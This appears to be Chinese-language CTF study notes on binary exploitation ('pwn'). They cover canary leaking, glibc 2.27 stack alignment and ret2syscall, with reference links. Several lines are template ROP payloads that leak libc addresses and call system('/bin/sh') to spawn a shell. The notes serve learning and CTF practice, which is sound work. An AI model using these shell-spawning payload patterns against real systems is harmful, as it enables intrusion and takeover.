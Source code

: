 # PWN

+ 技巧总结 https://www.cnblogs.com/xshhc/p/16939678.htmlz
+ 二进制资料 https://abcdxyzk.github.io/blog/cats/assembly/
+ 参考 https://www.yuque.com/hxfqg9/bin

## 做题笔记

### Canary leak

Canary存在ebp之前 其大小取决于程序的bit 0x04 0x08

1. Payload_Leak = Padding + p64(Canary) + Padding_Ret + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
2. Payload_Shell = Padding + p64(Canary) + Padding_Ret + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

### glibc 2.27

+ 得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)`
  弹出的数据是奇数个, 本地就会报错
  但是改成偶数个pop
  `payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)`
  就能打通本地了

### ret2syscall

+ 参考 https://www.cnblogs.com/fuxuqiannian/p/16913836.html
+ 没有sys且开启了NX
+ 32：pop,a,b,c,d,ret execve调用号 0xb写在pop,a后 其余两个寄存器覆盖0 p32(0) 最后执行int80 addr
+ 64：传参的寄存器是rdi->rsi->rdx->rcx->r8->r9 execve调用号 0x3b 最后执行syscall addr
+ ![1708929874831](image/pwn/1708929874831.png)
